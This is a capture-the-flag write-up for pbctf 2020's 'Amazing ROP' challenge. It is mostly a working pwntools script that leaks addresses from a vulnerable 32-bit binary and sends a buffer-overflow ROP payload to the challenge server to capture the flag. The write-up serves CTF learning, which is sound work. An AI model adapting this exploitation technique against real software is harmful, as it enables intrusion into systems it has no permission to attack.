 Pwn_Amazing ROP
====

```
Should be a baby ROP challenge. Just need to follow direction and get first flag.

nc maze.chal.perfect.blue 1

By: theKidOfArcrania
```

[bof.c](https://storage.googleapis.com/pbctf-2020-ctfd/8e94e6f057143f9eba46a581a94a69b0/bof.c) [bof.bin](https://storage.googleapis.com/pbctf-2020-ctfd/b315ab20c9c4608a9172d80bd3dcf4e1/bof.bin)

`nc maze.chal.perfect.blue 1`

---

`vuln` funciton is vulnerable by BOF. Therefore we can exploit with ROP attack. I get the flag by using the way of obtaining the flag shown in the source code.

```python
from pwn import *

e = ELF('./bof.bin')
# p = e.process(aslr=False)
p = remote('maze.chal.perfect.blue', 1)

context.log_level = 0

pie_off = 0x4f5c
gadget = 0x000013ad
esi_edi_ebp = 0x00001396

p.sendlineafter(b'n) ','n')

'''
set buf
'''
pay = p64(0)*4
pay += p32(0xFFFFFFFF)*4

'''
set secret
'''
pay += p32(0x67616c66)

'''
get pie
set stack
'''
p.recvuntil(b'ef be ad de ')
x = bytes.fromhex(p.recvuntil('|')[:-1].replace(b' ',b'').decode())
pay += x
pie = int.from_bytes(x,'little') - pie_off
print(hex(pie))
p.recvuntil(b'|')
pay += bytes.fromhex(p.recv(len(' 5c df 61 56 ')).replace(b' ',b'').decode())
ebp = bytes.fromhex(p.recvuntil('|')[:-1].replace(b' ',b'').decode())
pay += ebp
ebp = int.from_bytes(ebp,'little')
p.recvuntil(b'|')
ret = bytes.fromhex(p.recv(len(' 5c df 61 56 ')).replace(b' ',b'').decode())
print(hex(int.from_bytes(ret,'little')))
wtf = bytes.fromhex(p.recvuntil('|')[:-1].replace(b' ',b'').decode())

'''
set ret
'''
pay += p32(pie + esi_edi_ebp)
pay += p32(0x1337)
pay += p32(0x31337)
pay += p32(ebp)
pay += p32(pie + gadget)
pay += p32(1)


p.sendlineafter(b'text: ',pay)
sleep(0.1)
p.recvuntil('address: ')
p.recvline()

p.interactive()
```

`pbctf{hmm_s0mething_l00ks_off_w1th_th1s_s3tup}`

